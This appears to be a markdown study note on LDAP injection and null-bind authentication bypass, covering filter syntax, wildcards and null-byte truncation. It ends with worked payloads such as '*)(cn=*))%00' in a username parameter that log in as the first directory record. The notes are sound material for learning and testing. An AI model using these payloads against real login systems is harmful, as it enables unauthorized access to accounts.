 # **LDAP:**

- Some LDAP servers authorise NULL Bind: if null values are sent, the LDAP server will proceed to bind the connection, and the PHP code will think that the credentials are correct.
- To get the bind with 2 null values, you will need to completely remove this parameter from the query and send an empty body.

**LDAP syntax:**

- When you are retrieving a user, based on its username, the following will be used: ```(cn=[INPUT])```
- If you want to add more conditions and some boolean logic, you can use:
  - **A boolean OR using |** to get records matching [INPUT1] or [INPUT2]

        ```bash
          (|(cn=[INPUT1])(cn=[INPUT2]))
        ```

  - **A boolean AND using &** to get records for which the cn matches [INPUT1] and the password matches [INPUT2]

        ```bash
           (&(cn=[INPUT1])(userPassword=[INPUT2]))
        ```

  - As you can see, the boolean logic is located at the beginning of the filter. Since you're likely to inject after it, it's not always possible (depending on the LDAP server) to inject logic inside the filter, one is only able to inject some logic into it if it's just **(cn=[INPUT])**

  - LDAP uses the wildcard **`*`** character very often, to match any values.
  - This can be used for match everything **`*`** or just substrings (for example **`adm*`** for all words starting with adm)

  - As with other injections, we will need to remove anything added by the server-side code. We can get rid of the end of the filter, using a NULL BYTE (encoded as **%00**).

    &nbsp;

  **LDAP Injection View from laymans aspect:**

  - <https://url/?name=admin&password=admin> == **(&(cn=admin)(userPassword=admin))**
  - so when injecting the bracket:
    - <https://url/?name=admin)&password=admin> == **(&(cn=admin))(userPassword=admin))**
  - which shows we don't have the same number of opening and closing bracket hence the error msg:'Bad search filter'
  - so one needs to finish the ldap query properly then inject it with a condition that says always true
    - <https://url/?name=admin)(cn=*))%00&password=admin> == **(&(cn=admin)(cn=*))%00  (userPassword=admin))**
  - To authenticate as the first record in the ldap server the exploit will be as below:
    - <https://url/?name=*)(cn=*))%00&password=admin> == **(&(cn=*)(cn=*))%00  (userPassword=admin))**
